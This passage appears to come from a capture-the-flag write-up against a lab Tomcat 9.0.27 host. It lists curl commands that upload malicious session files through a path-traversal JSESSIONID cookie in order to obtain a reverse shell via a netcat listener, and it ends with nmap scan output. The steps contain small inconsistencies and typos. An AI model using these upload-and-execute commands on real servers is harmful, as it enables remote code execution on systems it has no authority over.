```
   - bash /tmp/targetplay.sh
   - (execute the targetplay.sh)

10. create curlcommand.sh
    - send curl command with the cookie and malicious files.

    bash:
    vim curlcomand.sh
    # !/bin/bash
    curl http://10.10.10.205:8080/upload.jsp -H 'Cookis:JESSIONID=../../../opt/samples/uploads/uploadfile' -F 'image=@uploadfile.session'
    sleep 1
    curl http://10.10.10.205:8080/upload.jsp -H 'Cookis:JESSIONID=../../../opt/samples/uploads/executefile' -F 'image=@executefile.session'


11. setup pyserver

12. setup netcat listener

13. run curlcommand and get the reverse shell
```

---

## Initial：

---

### Recon NMAP

NMAP:
- <font color=red> FINDING </font>
  - Port 222 SSH
  - Port 8080 Apache Tomcat 9.0.27


```bash
$ nmap -sC -p- 10.10.10.205

PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
4554/tcp open  msfrs
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: VirusBucket
```

---